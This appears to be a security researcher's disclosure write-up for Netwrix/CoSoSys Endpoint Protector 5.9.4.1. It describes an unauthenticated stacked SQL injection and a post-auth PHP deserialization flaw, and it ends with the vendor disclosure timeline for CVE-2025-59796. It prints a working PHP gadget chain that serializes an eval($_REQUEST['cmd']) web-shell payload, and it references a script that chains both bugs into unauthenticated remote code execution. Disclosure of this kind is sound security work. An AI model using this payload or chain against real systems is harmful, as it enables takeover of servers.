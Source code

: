 ## 0x01 Affected Version

test version:  5.9.4.1

## 0x02 Vulnerability Details

**Unauthorized SQL injection**

SoapControllerMySQL

![image-20240911110146542](images/image-20240911110146542.png)

Searching for public function with parameters found only

- isSoapAuth
- Ping
- processActionList
- Reprovision
- Connected
- UploadLogEnd

Ping

![image-20240911174755803](images/image-20240911174755803.png)

SQL injection exists when inserting or updating

Stack injection is possible. This vulnerability can be exploited to add arbitrary users and inject malicious data into the database.

![image-20240911174851219](images/image-20240911174851219.png)

Access is only possible through SSL verification

![image-20250517132852829](images/image-20250517132852829.png)

You can register and obtain a certificate through /wsf/webservice.php, and then request the obtained certificate.

**Post-Auth deserialization Remote code execution**

The decrypted code is a bit messy, but the relevant logic can still be guessed

ADOperationLogPeer::getFormattedMessage

Deserialization exists

![image-20250517130743472](images/image-20250517130743472.png)

ad_logActions::executeList calls the getFormattedMessage method

![image-20250517130819207](images/image-20250517130819207-1747459959190-5.png)

Therefore, you only need to insert malicious data into the adoperation_log table, and deserialization can be triggered during list query to achieve remote code execution.

gadget

```php
<?php

class Net_SSH1
{
    var $bitmap = 1;
    var $crypto;
    public function __construct($a)
    {
        $this->crypto = $a;
    }
}

class Crypt_DES
{
    var $block_size;
    var $inline_crypt;
    var $use_inline_crypt = 1;
    var $changed = 0;
    var $engine = 1;
    var $mode = 1;

    public function __construct($t)

    {
            $this->block_size = '1){}}}; ob_clean();' . $t . 'die(); ?>';
            $this->changed=1;
            $this->engine = "xxxxx";
    }
}
class Crypt_RSA{

}
$code= "eval(\$_REQUEST['cmd']);";
$obj = [new Crypt_RSA(),
        new Net_SSH1(
           new Crypt_DES($code)
        )
    ];
echo base64_encode(serialize($obj));
```

Combining two vulnerabilities can achieve unauthorized remote code execution.

You can just change the directory and run netwrix_cososys_endpoint_protector_sqli_rce.py

![image-20250517134001159](images/image-20250517134001159.png)

## 0x03 Disclosure Timeline

- **2025-05-17** – Initial report submitted
- **2025-05-17** – Vendor confirmed receipt; triage underway, next update in 3 business days
- **2025-05-30** – Requested update
- **2025-06-16** – Requested update
- **2025-06-27** – Vendor confirmed the vulnerability; disclosure delayed until patch release
- **2025-08-14** – Requested update
- **2025-08-14** – Requested update (no patch released; disclosure window exceeded 90 days; public disclosure may follow if no fix by 2025-09-14)
- **2025-09-15** – The supplier replied that the work order was closed by mistake and the request was postponed to October 1
- **2025-09-29** – Vendor response: CVE-2025-59796 (security advisory will be released around October 20)
- **2025-10-30** – Vendor release security advisories
